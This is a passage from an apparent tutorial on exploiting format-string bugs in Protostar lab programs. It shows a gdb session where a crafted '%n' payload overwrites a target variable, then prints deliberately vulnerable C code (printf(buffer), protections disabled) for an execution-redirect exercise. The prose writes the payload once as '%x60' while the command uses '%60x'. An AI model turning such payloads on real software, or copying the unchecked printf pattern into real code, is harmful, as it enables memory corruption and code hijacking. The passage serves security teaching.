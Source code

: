 So, *target* is at **0xbffff65c**. Now, we just need to write the proper value at this address. The following input should do the trick : `"\x5c\xf6\xff\xbf%x60%7$n"`. Note that we only need to add *60* as the address is 4 bytes long.

```nasm
gdb-peda$ run < <(python -c 'print "\x5c\xf6\xff\xbf%60x%7$n"')
Starting program: /home/user/demo/format2 < <(python -c 'print "\x5c\xf6\xff\xbf%60x%7$n"')
\???                                                         200
you have modified the target !
[Inferior 1 (process 5414) exited normally]
Warning: not running or target is remote
```

Done ! 

### Code Execution Redirect

In this use case, we have to redirect the execution flow. 

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

// gcc -z execstack -z norelro -no-pie -fno-stack-protector -o format4 format4.c
// Ref. https://exploit-exercises.com/protostar/format4/

void hello()
{
  printf("Code execution redirected !\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);   
}

int main(int argc, char **argv)
{
  vuln();
}
```

Here, you should already have a good understanding of what we have to do. However, there is a trick. I'm sure that you think we need to overwrite the *return address* of *main()* with the address of *hello()*, but it won't work...
